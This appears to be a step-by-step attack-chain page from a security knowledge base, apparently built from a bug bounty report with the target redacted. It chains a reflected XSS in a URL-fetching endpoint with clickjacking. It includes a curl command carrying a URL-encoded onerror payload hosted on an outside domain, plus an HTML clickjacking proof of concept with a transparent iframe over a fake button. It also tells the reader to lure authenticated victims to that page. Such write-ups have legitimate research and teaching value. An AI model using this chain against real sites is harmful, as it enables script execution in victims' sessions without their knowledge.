

# Chained Reflected XSS and Clickjacking for Arbitrary JavaScript Execution

Multi-stage attack chain demonstrating a complete web vulnerability exploitation workflow targeting a reflected XSS in a URL-fetching endpoint, combined with clickjacking to enable execution without direct user interaction on the malicious payload.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite-Professional]]

### Target Environment

- Web application with authenticated endpoints
- Vulnerable URL parameter that fetches and renders external content
- No X-Frame-Options or frame-busting protections

### Initial Access Requirements

- Attacker-controlled domain or hosting for payloads
- Victim must be authenticated to the target site
- Network access to host the clickjacking PoC page

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Reflected-XSS-Endpoint]]

**Objective**: Locate the web endpoint that accepts a URL parameter and renders fetched content without sanitization, enabling reflected XSS.

**Instructions**: Use manual testing or proxy tools to inspect requests. Look for parameters like 'url' in GET requests that trigger content fetching via XMLHttpRequest or similar.

For example, test the endpoint https://█████/████&url= by appending a benign URL and observing if the server fetches and displays the content inline.

**Expected Output**: Server responds with rendered content from the supplied URL, confirming lack of sanitization.

**Success Indicators**:
- Content from external URL appears unsanitized in the response
- No CSP or escaping prevents script tags or event handlers

### Step 2: Exploit Reflected XSS via Malicious URL
procedure: [[procedures/Exploit-Reflected-XSS-via-Malicious-URL]]

**Objective**: Inject an XSS payload into the URL parameter to achieve arbitrary JavaScript execution when the server fetches and renders it.

**Instructions**: Craft a malicious URL pointing to an attacker-controlled domain with the XSS payload in the path. Use URL encoding for the payload.

Execute [[commands/access-vulnerable-endpoint-with-xss-payload]] to test:

```bash
curl "https://█████/████&url=http%3a%2f%2fgalnagli.com%2f%3Cimg+src%3dx+onerror%3dalert%28document.domain%29%3E"
```

Then, embed the payload [[commands/embed-xss-payload-in-url-path]] directly in the path for rendering:

The server will fetch http://galnagli.com/ and render it, triggering the onerror event.

**Expected Output**: JavaScript alert executes in the browser, confirming XSS.

**Success Indicators**:
- Alert popup displays the domain or payload executes
- Inspect network requests to verify fetch and render

### Step 3: Chain Clickjacking to Bypass CSRF
procedure: [[procedures/Chain-Clickjacking-to-Bypass-CSRF]]

**Objective**: Use clickjacking to trick the authenticated user into clicking, triggering the vulnerable endpoint via an overlaid iframe, bypassing XMLHttpRequest CSRF limitations.

**Instructions**: Host an HTML PoC page with an invisible iframe loading the target site. Scale and position the iframe to overlay a fake button, so the user's click submits the malicious URL to the endpoint.

Use [[tools/Burp-Suite-Professional]] to generate and test the PoC HTML. Example PoC structure:

```html
<!DOCTYPE html>
<html>
<body>
  <button style="position:absolute; z-index:1;">Click Here</button>
  <iframe src="https://█████/████" style="opacity:0.5; position:absolute; top:0; left:0; width:400px; height:300px; z-index:0;"></iframe>
  <script>
    // Position iframe so click hits the vulnerable form/button
  </script>
</body>
</html>
```

Lure the victim to the PoC page; their click will trigger the XSS via the chained endpoint.

**Expected Output**: Victim's browser executes the XSS payload on the target domain.

**Success Indicators**:
- Iframe embeds without blocking (no X-Frame-Options)
- Click triggers request to vulnerable URL parameter
- JS executes in victim's session context

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed reflected XSS in URL parameter handling
2. Demonstrated payload execution via server-side fetching and rendering
3. Bypassed CSRF protections using clickjacking for real-world exploitation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
